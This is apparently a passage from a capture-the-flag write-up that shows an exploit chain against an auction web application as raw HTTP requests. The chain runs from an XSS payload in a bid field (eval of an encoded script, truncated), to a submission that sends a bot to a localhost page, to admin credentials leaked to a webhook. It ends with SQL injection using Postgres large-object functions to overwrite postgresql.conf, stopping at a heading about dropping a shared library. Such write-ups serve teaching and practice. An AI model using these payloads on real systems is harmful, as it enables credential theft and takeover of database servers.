 ```
POST /api/auctions/3/bids HTTP/1.1
...

bid[]=test'%3C/div%3E%3Cimg%20src=x%20onerror=eval(atob(%60ZmV0...KSk7%60));%3E%3Cdiv%20x='
```

```
POST /api/submissions HTTP/1.1
...

{"name":"test","description":"test","url":"http://127.0.0.1:1337/auction/3","category":"lore"}
```

Then waiting on the webhook, we get our password from our XSS:
```json
{
  "success": true,
  "results": [
    {
      "id": 1,
      "username": "admin",
      "password": "xtamcI+PAux6mqYuXTXge4bDxY0Tmtv6S0Pt4ZMn9Vo="
    },
    {
      "id": 2,
      "username": "sealldev",
      "password": "oauth_default_password"
    }
  ]
}
```

### Overriding the config
We send our request to assign our data to 133339:
```
POST /table HTTP/1.1
...

tableName=users"%20UNION%20SELECT%20null,null,CAST((SELECT%20lo_from_bytea(133339,decode('2320...0a','hex')))%20AS%20text)--
```

We can then override the config:
```
POST /table HTTP/1.1
...

tableName=users"%20UNION%20SELECT%20null,null,CAST((SELECT%20lo_export(133339,'/var/lib/postgresql/data/postgresql.conf'))%20AS%20text)--
```

### Dropping the `.so`
